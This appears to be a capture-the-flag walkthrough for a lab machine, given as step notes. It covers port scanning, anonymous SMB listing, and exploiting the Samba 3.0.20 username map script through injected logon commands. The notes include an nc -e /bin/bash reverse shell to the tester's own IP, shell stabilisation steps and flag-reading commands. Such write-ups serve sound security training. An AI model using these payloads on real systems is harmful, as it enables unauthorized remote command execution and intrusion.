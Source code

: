 1. Enumerate ports and version with:
nmap __{VICTIM'S IP}__ --open -sS --min-rate=5000 -p- -n -Pn -vvv __{IP}__ -oN allports
nmap __{VICTIM'S IP}__ -sCV -p __{ports}__ -oN targeted

2. Look at the results of the last command and try something with anonymous in ftp

3. Look for possible CVE in the service versions

4. Try something with vsftpd 2.3.1

5. Exploit Username Map Script in Samba 3.0.20 to gain root access to the machine
		5.1 - Previously you could try to list the local server resources of the smbserver with the command: smbclient -L __{IP}__ -N --option 'client min protocol = NT1'
			-L : List resources
			-N : Use a null session (because I don't have any valid login credentials)
			--option : Use the option client min protocol = NT1 to solve the error that appears when you try to connect with a null session to this specific server
        5.2 - After listing you can connect to the server using: "smbclient //__{IP}__/tmp -N" in order to get server info with an anonymous login
        5.3 - Exploting the vuln Username Map Script you can use the smb command "logon" to inject code using the following expression: "/=\`nohup __{command to exectue}__\`" as a user leading to remote command execution
        5.4 - Try using 'logon "/=\`nohup ping -c 1 __{LOCAL-IP}__\`"' with your home machine listening for incoming icmp with the command tcpdump -i __{INTERFACE}__ icmp -n
              -i : option to set the interface to dump (tun0 in this case)
              -n : Doesn't apply dns resolution (similar to nmap -n)
        5.5 - Start netcat in the local machine looking for connections: "nc -lvnp 443" and in the remote machine send a bash console: 'logon "/=\`nohup nc -e /bin/bash __{LOCAL-IP }__ 443\`"'
        5.6 - In the local machine use "script /dev/null -c bash" to make the console look prettier
        5.7 - Change $SHELL to /bin/bash and $TERM to xterm, also do CTRL+Z and insert "stty raw -echo; fg" to enable you to, right after that, use the command "reset xterm" to have a fully interactive console
        5.8 - You can also see in a personal shell the size of your console with the command "stty size" and apply it to the other terminal with "stty rows __{ROWS}__ columns __{COLUMNS}__"
        5.9 - Find the flags and submit them. You can use "find \ -name user.txt | xargs cat" and "find \ -name root.txt | xargs cat"

6. End of the Machine